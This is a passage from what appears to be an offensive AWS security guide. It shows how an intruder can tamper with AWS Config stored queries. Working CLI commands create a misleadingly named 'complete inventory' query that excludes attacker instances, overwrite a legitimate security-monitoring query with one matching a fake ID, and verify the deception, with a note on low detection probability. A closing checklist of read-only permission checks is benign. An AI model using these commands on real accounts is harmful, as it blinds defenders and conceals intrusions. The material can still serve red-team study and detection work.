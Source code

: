 Create a query that appears to find all EC2 instances but excludes your malicious ones:

```bash
aws configservice put-stored-query --stored-query \
'{
    "QueryName": "All-Production-EC2-Instances",
    "Description": "Complete inventory of production EC2 instances.",
    "Expression": "SELECT resourceId, resourceName WHERE resourceType = '\''AWS::EC2::Instance'\'' AND tags.Environment = '\''Production'\'' AND resourceName NOT LIKE '\''%attacker%'\''"
}'
```

#### 3. Overwrite Existing Query

If a legitimate query exists, you can overwrite it:

```bash
aws configservice put-stored-query --stored-query \
'{
    "QueryName": "Security-Critical-Resources",
    "Description": "Monitors high-risk resources.",
    "Expression": "SELECT resourceId WHERE resourceType = '\''AWS::EC2::Instance'\'' AND resourceId = '\''i-fakeid'\''"
}'
```

#### 4. Verify the Deception

```bash
aws configservice get-stored-query --query-name "Find-Encrypted-Volumes" | \
  jq '.StoredQuery.Expression'
```

**Impact:**
- Analysts using the dashboard may be misled
- Automated reporting may hide your activities
- **Low detection probability** - queries are not heavily monitored

---

## 🔎 Part 3: Manual Permissions Audit

This checklist helps you manually determine what your current IAM principal is allowed to do.

**Goal:** Systematically test your permissions against the Config service. For each command, a successful response (even with a "NotFound" error) means you have the permission, while an `AccessDeniedException` means you do not.

### Read Permissions (Safe to Run)

These commands only retrieve information and are safe to execute:

```bash
# List all Config rules
aws configservice describe-config-rules

# Check configuration recorders
aws configservice describe-configuration-recorders

# Check recorder status
aws configservice describe-configuration-recorder-status

# List delivery channels
aws configservice describe-delivery-channels

# List stored queries
aws configservice list-stored-queries

```